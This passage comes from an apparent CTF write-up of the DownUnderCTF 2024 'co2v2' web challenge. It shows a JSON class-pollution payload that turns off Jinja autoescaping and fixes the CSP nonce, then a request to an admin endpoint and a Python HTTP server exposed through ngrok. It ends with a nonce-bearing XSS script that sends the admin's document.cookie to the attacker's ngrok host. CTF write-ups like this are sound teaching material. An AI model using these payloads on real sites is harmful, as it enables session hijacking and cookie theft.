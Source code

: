 ```http
    "__init__":{
        "__globals__":{
            "TEMPLATES_ESCAPE_ALL": false,
            "SECRET_NONCE": "literally_anything",
            "RANDOM_COUNT": 0
        }
    }
}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/DownUnderCTF-2024/images/Pasted%20image%2020240709175429.png)

- Update Jinja environment's `autoescape` attribute

```http
POST /admin/update-accepted-templates HTTP/2
Host: web-co2v2-bf232bafe3979c0d.2024.ductf.dev
Cookie: session=.eJwlzssNwjAMANBdcuZgx5_GLIPs2BFcW3pC7A6IAZ70Xu229jru7frcz7q02yPbtQUDuBAQ2cIhNeZin-aoPS20Wzh3FSzWDCjm6FwZPir77OghGT_i2JOQFGKA6BDQKU4EkTotS2aNTdl8MdbMZbWRbR6jfSPnUft_g-39Ad-_MBE.Zoz09Q.LpfMqtgQWdTNmul74tzeLx41pjU
Content-Type: application/json
Content-Length: 27

{
    "policy":"strict"
}
```

- Get a valid nonce for our XSS payload

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/DownUnderCTF-2024/images/Pasted%20image%2020240709175658.png)

Valid nonce in path `/`: **`abfbce049d9b88169854405a12885883f633e33bff53c00bea056033ec92d831`**

> Note: We can also manually calculate the SHA256 nonce.

- Setup a simple HTTP server for exfiltrating the admin's cookie

```shell
┌[siunam♥Mercury]-(~/ctf/DownUnderCTF-2024/web/co2v2)-[2024.07.09|17:58:15(HKT)]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
┌[siunam♥Mercury]-(~/ctf/DownUnderCTF-2024/web/co2)-[2024.07.09|17:58:29(HKT)]
└> ngrok http 80
[...]
Forwarding                    https://1c4f-{REDACTED}.ngrok-free.app -> http://localhost:80
[...]
```

- Create a new blog post with XSS payload, and make it public

**XSS payload:**
```html
<script nonce='abfbce049d9b88169854405a12885883f633e33bff53c00bea056033ec92d831'>fetch("https://1c4f-{REDACTED}.ngrok-free.app/?cookie="+document.cookie);</script>
```
